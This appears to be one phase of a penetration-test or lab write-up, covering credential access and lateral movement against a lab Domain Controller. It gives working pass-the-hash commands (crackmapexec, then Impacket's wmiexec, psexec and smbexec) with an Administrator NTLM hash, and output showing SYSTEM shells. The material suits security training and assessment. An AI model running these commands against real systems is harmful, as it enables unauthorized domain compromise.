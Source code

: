 # Phase 5: Credential Access & Lateral Movement

MITRE ATT\&CK Techniques:

* T1003.006: OS Credential Dumping - LSASS Memory
* T1021.002: Remote Services - SMB/Windows Admin Shares
* T1021.003: Remote Services - WinRM
* T1077: Windows Admin Shares

## Objective:

The objective of this phase was to:

* Utilize the extracted Administrator NTLM hash obtained in Phase 4.
* Confirm access using the hash to authenticate.
* Execute remote code on the Domain Controller (192.168.50.5) using various Impacket tools.
* Achieve NT AUTHORITY\SYSTEM level access.
* Demonstrate lateral movement using credentials.

## Step 1: Validate Access with crackmapexec

Command:

```
crackmapexec smb 192.168.50.5 -u Administrator -H 68ae965c9062b389f2a285e27ff0a566 -d CORP
```

Output:

```
[+] CORP\Administrator:68ae965c9062b389f2a285e27ff0a566 (Pwn3d!)
```

Confirmed that the hash is valid and grants Administrator access to the Domain Controller.

## Step 2: Remote Shell via wmiexec.py

Command:

```
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py CORP/Administrator@192.168.50.5 -hashes aad3b435b51404eeaad3b435b51404ee:68ae965c9062b389f2a285e27ff0a566
```

Result:

```
C:\> whoami
nt authority\system
```

Achieved SYSTEM-level shell through WMI execution.

## Step 3: SYSTEM Access via psexec.py

Command:

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py CORP/Administrator@192.168.50.5 -hashes aad3b435b51404eeaad3b435b51404ee:68ae965c9062b389f2a285e27ff0a566
```

Result:

```
C:\Windows\system32> whoami
nt authority\system
```

Remote service installed and executed successfully, providing SYSTEM shell.

## Step 4: Remote Execution via smbexec.py

Command:

```
python3 /usr/share/doc/python3-impacket/examples/smbexec.py CORP/Administrator@192.168.50.5 -hashes aad3b435b51404eeaad3b435b51404ee:68ae965c9062b389f2a285e27ff0a566
```

Result:

```
C:\Windows\system32> whoami
nt authority\system
```

Obtained another SYSTEM-level interactive shell using SMBExec.

## Conclusion:

All three remote execution techniques were tested successfully using the Administrator NTLM hash. The access level achieved was NT AUTHORITY\SYSTEM. This phase validated the ability to move laterally and execute commands remotely on a domain-joined system with full privileges.

Screenshots for all steps including hash dumps and command outputs have been captured and saved for documentation.
